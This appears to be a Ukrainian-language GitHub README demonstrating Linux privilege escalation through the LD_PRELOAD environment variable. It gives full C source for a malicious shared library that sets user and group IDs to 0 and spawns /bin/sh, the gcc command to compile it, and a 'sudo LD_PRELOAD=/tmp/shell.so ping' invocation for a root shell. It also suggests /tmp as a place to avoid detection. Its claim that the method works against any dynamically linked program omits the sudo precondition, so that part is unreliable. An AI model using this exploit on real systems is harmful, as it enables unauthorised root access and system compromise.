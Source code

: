 <h1>ld_preload-privilege-escalation</h1>
<h2>Опис</h2>
<p><code>LD_PRELOAD</code> — це змінна середовища, яка використовується для попереднього завантаження загальних бібліотек у програму або скрипт перед її виконанням. Це дозволяє замінити функції за замовчуванням програми, що дає змогу маніпулювати її поведінкою.</p><p>Цей репозиторій демонструє експлойт ескалації прав за допомогою змінної <code>LD_PRELOAD</code>. Створюючи спеціальну загальну бібліотеку, ми можемо впровадити її в програму та ескалювати привілеї, наприклад, для запуску довільних команд з правами root.</p>
<h2>Пояснення</h2>
<p>Ми створимо загальну бібліотеку, яку можна буде завантажити в програму за допомогою <code>LD_PRELOAD</code>, що дозволить нам ескалувати привілеї програми до прав root. Ключова ідея — використання змінної <code>LD_PRELOAD</code> для попереднього завантаження шкідливої бібліотеки перед виконанням цільової програми.</p>

<h3>Кроки реалізації</h3>
<ol>
<li><strong>Створення бібліотеки-експлойту:</strong> Спершу ми напишемо програму на C (файл <code>shell.c</code>), яку скомпілюємо в загальний об'єкт (файл <code>shell.so</code>). Ця бібліотека виконає ескалацію привілеїв, запустивши оболонку з правами root.</li>
</ol> 
'''
<pre><code>#include &lt;stdio.h&gt;
     #include &lt;sys/types.h&gt;
#include &lt;stdlib.h&gt;

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}</code></pre>

    <p>У цьому коді:</p>
    <ul>
        <li><code>setgid(0)</code> і <code>setuid(0)</code> встановлюють ID групи та користувача на <code>0</code>, що відповідає користувачу root.</li>
        <li><code>system("/bin/sh")</code> запускає оболонку з правами root.</li>
    </ul>

    <ol start="2">
        <li><strong>Компиляція бібліотеки:</strong> Після написання коду потрібно скомпілювати його в загальний об'єкт за допомогою наступної команди:</li>
    </ol>
    <pre><code>gcc -fPIC -shared -o shell.so shell.c -nostartfiles</code></pre>

    <p>Це створить файл <code>shell.so</code>, який є загальним об'єктом, що може бути завантажений в інші програми за допомогою <code>LD_PRELOAD</code>.</p>

    <ol start="3">
        <li><strong>Встановлення змінної LD_PRELOAD:</strong> Щоб скористатися вразливістю програми, потрібно встановити змінну середовища <code>LD_PRELOAD</code> на шлях до нашої шкідливої бібліотеки. Припустимо, що об'єкт зберігається в <code>/tmp</code> для зручності доступу.</li>
    </ol>
    <pre><code>sudo LD_PRELOAD=/tmp/shell.so ping</code></pre>

    <p>Ця команда змушує програму <code>ping</code> завантажити нашу шкідливу бібліотеку перед її виконанням. В результаті, при запуску програми <code>ping</code>, вона отримає права root і відкриє оболонку.</p>

    <h2>Важливі зауваження</h2>
    <ul>
        <li><strong>Місце зберігання об'єкта:</strong> Шкідлива бібліотека (<code>shell.so</code>) не обов'язково повинна знаходитися в <code>/tmp</code>, але це зручне місце для уникнення виявлення.</li>
        <li><strong>Цільова програма:</strong> У цьому прикладі ми використовуємо програму <code>ping</code> як ціль. Однак цей метод можна застосувати до будь-якої програми, яка динамічно завантажує бібліотеки.</li>
        <li><strong>Безпекові наслідки:</strong> Використання <code>LD_PRELOAD</code> таким чином може бути використано для ескалації прав, що є суттєвою загрозою для безпеки. Переконайтеся, що ви розумієте юридичні та етичні наслідки використання цього експлойту.</li>
    </ul>

    <h2>Приклад використання</h2>
    <pre><code>gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so ping</code></pre>

    <p>Це дозволить ескалувати привілеї і запустити оболонку з правами root.</p>

    <h2>Висновок</h2>
    <p>Цей приклад демонструє, як можна використовувати <code>LD_PRELOAD</code> для ескалації прав. Хоча цей метод є потужним, важливо розуміти його потенціал для шкідливого використання. Системи повинні бути налаштовані для мінімізації таких ризиків, забезпечуючи належну безпеку та захист від експлойтів типу <code>LD_PRELOAD</code>.</p>
